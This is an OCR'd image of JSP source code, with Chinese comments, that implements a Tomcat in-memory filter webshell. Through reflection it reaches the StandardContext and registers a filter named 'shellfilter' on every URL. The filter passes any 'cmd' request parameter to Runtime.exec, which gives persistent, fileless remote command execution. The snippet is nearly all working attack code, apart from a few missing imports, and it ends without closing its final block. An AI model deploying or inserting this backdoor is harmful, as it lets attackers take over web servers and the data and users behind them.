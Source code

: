   ```jsp
  <%@ page import="java.lang.reflect.Constructor" %>
  <%@ page import="org.apache.catalina.Context" %>
  
  <%
      //获取ApplicationContextFaced类
      ServletContext servletContext = request.getSession().getServletContext();
      //反射获取StandardContext,首先获取到ApplicationContextFaced类context属性，为类ApplicationContext的一个对象
      Field appContext = servletContext.getClass().getDeclaredField("context");
      appContext.setAccessible(true);
      ApplicationContext applicationContext = (ApplicationContext) appContext.get(servletContext);
      //获取StandardContext
      Field stdContext = applicationContext.getClass().getDeclaredField("context");
      stdContext.setAccessible(true);
      StandardContext standardContext = (StandardContext) stdContext.get(applicationContext);
  %>
  <%!
      public class shellFilter implements Filter {
  
          @Override
          public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
              String cmd = servletRequest.getParameter("cmd");
              if(cmd != null ){
                  try {
                      Runtime.getRuntime().exec(cmd);
                  } catch (IOException e) {
                      e.printStackTrace();
                  } catch (NullPointerException n) {
                      n.printStackTrace();
                  }
              }
              filterChain.doFilter(servletRequest, servletResponse);
          }
      }
  %>
  <%
      shellFilter shellFilter = new shellFilter();
      String name = "shellfilter";
      FilterDef filterDef = new FilterDef();
      filterDef.setFilter(shellFilter);
      filterDef.setFilterName(name);
      filterDef.setFilterClass(String.valueOf(shellFilter.getClass()));
      standardContext.addFilterDef(filterDef);
      //创建filtermap
      FilterMap filterMap  = new FilterMap();
      filterMap.setFilterName(name);
      filterMap.addURLPattern("/*");
      filterMap.setDispatcher(DispatcherType.REQUEST.name());
      //直接添加在最前
      standardContext.addFilterMapBefore(filterMap);
      //使用ApplicationFilterConfig封装filterDef，然后将其添加到filterConfigs中
      Field fieldconfigs = standardContext.getClass().getDeclaredField("filterConfigs");
      fieldconfigs.setAccessible(true);
      Map filterConfigs = (Map) fieldconfigs.get(standardContext);
          //获取构造函数
      Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
      constructor.setAccessible(true);
      ApplicationFilterConfig filterconfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);
  
      filterConfigs.put(name,filterconfig);
  
  ```